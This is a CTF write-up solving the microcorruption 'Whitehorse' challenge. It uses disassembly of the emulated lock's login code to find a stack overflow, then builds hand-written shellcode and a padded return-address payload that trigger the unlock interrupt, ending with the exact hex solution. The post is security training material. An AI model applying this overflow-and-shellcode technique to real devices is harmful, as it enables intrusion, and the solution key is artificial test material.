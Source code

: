 ```yaml
---
title: "microcorruption - whitehorse"
date: 2018-03-07T16:11:34+02:00
categories: 
- ctf
- exploit
- assembly
- microcorruption
- whitehorse
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/06/microcorruption---reykjavik/) called _Reykjavik_. This challenge is titled _Whitehorse_.

This challenge has the following description towards the bottom:

> This is Software Revision 01. The firmware has been updated to connect with the new hardware security module. We have removed the function to unlock the door from the LockIT Pro firmware.

Not a lot of information to go on. Lets dig into the code to learn more.
<!--more-->

## whitehorse

For whitehorse, the `main` routine had a familiar setup where it simply called `login`.

```asm
4438 <main>
4438:  b012 f444      call  #0x44f4 <login>
```

The `login` routine in turn did not have any particularly interesting logic in it either other than a call to `conditional_unlock_door` at `0x4514`. This routine seems to just get a password via a syscall, run `conditional_unlock_door` and print a message of _"Access granted."_ or _"That password is not correct."_ depending on the result of the `tst r15` call.

```asm
44f4 <login>
44f4:  3150 f0ff      add   #0xfff0, sp
44f8:  3f40 7044      mov   #0x4470 "Enter the password to continue.", r15
44fc:  b012 9645      call  #0x4596 <puts>
4500:  3f40 9044      mov   #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504:  b012 9645      call  #0x4596 <puts>
4508:  3e40 3000      mov   #0x30, r14
450c:  0f41           mov   sp, r15
450e:  b012 8645      call  #0x4586 <getsn>
4512:  0f41           mov   sp, r15
4514:  b012 4644      call  #0x4446 <conditional_unlock_door>
4518:  0f93           tst   r15

; notice that there does not seem to be any logic to unlock here?
451a:  0324           jz    #0x4522 <login+0x2e>
451c:  3f40 c544      mov   #0x44c5 "Access granted.", r15
4520:  023c           jmp   #0x4526 <login+0x32>
4522:  3f40 d544      mov   #0x44d5 "That password is not correct.", r15
4526:  b012 9645      call  #0x4596 <puts>
452a:  3150 1000      add   #0x10, sp
452e:  3041           ret
```

Weird, no syscall to unlock the lock? Lets see what `conditional_unlock_door` does:

```asm
4446 <conditional_unlock_door>
4446:  0412           push  r4
4448:  0441           mov   sp, r4
444a:  2453           incd  r4
444c:  2183           decd  sp
444e:  c443 fcff      mov.b #0x0, -0x4(r4)
4452:  3e40 fcff      mov   #0xfffc, r14
4456:  0e54           add   r4, r14
4458:  0e12           push  r14
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
4464:  5f44 fcff      mov.b -0x4(r4), r15
4468:  8f11           sxt   r15
446a:  3152           add   #0x8, sp
446c:  3441           pop   r4
446e:  3041           ret
```

Errr, also pretty boring. This routine eventually does syscall `0x7e` though. In the [lock's manual](https://microcorruption.com/manual.pdf), `0x7e` is described as:

> Interface with the HSM-2. Trigger the deadbolt unlock if the password is correct.

So it seems like this syscall might be the only logic we have to unlock the lock. Problem is though, the "HSM" is confirming the password validation here.

Digging a bit further, I decided to enter a password that was again larger than the suggested _"8 to 16 characters"_.

{{< figure src="/images/microcorruption/whitehorse_stack_overflow.png" >}}

Well looksy there! A stack overflow from the password field as the stack pointer (`sp`) points to `0x36ca` when the login function wants to return, meaning we can redirect the flow of code execution as we wish! There is just one problem here. We don't have any useful code we can jump to. The instruction at `0x445c` uses sycall `0x7e`, which asks the HSM to confirm the password.

So what can we do? Well, we control a number of bytes in the password buffer, what if we jump to our own opcodes (shellcode)? :)

To write the correct instructions needed to open the lock, we need to have read the [locks manual](https://microcorruption.com/manual.pdf) and know that doing a syscall with interrupt number `0x7f` will open the lock (without some fancy pants HSM trying to verify anything). If you were paying attention in the previous challenges you may have also noticed that `0xf7` was used to unlock the lock there.

From the locks manual and some of the challenges we have done up until now, we know that we need to simply push the interrupt number onto the stack that we want to call. This challenge already contains the opcodes we need for that too in the `conditional_unlock_door` routine, so its really easy to just copy/paste and modify those to suit our needs.

```asm
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

For reference, you can use the [online disassembler](https://onlinedisassembler.com/odaweb/) again, pasting the 8 raw bytes and reading the disassembly as you modify them to make sure you are on the right track. In reality, all we want to do really is swap the `0x7e` for an `0x7f`.

{{< figure src="/images/microcorruption/whitehorse_shellcode.png" >}}

Our final opcodes for our custom shellcode would be:

```asm
3012 7f00
b012 3245
```

Easy! That means the shellcode to unlock the lock will be `30127f00b0123245` within the password we provide. The size of our shellcode is exactly 8 bytes, meaning it fits comfortably within the password buffer, right before we corrupt the stack. That solves the shellcode we want to use, but how do we **get** there? That is actually really easy. :)

{{< figure src="/images/microcorruption/whitehorse_password_buffer_start.png" >}}

While debugging the program, you will see that the password buffer always starts at `0x36ba`. We can also see that bytes 17 and 18 corrupt the stack causing that `ret` instruction to jump to an address we control, so all we should be doing is pad the password input with enough bytes so that position 17 and 18 can slide in `0x36ba` as the final 2 bytes of our payload.

```python
$ python
>>> shellcode = "30127f00b0123245"
>>> pad_char = "41"
>>> ret = "ba36"
>>>
>>> print(shellcode + (pad_char * 8) + ret)
30127f00b01232454141414141414141ba36
```

{{< figure src="/images/microcorruption/whitehorse_unlock_win.png" >}}

With our final payload which includes custom shellcode to unlock the lock, we can see the `ret` causes a `jmp` to `0x36ba`, where syscall `0x7f` is prepared and called.

## solution

Enter `30127f00b01232454141414141414141ba36` as hex encoded input.

## other challenges

For my other write ups in the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.
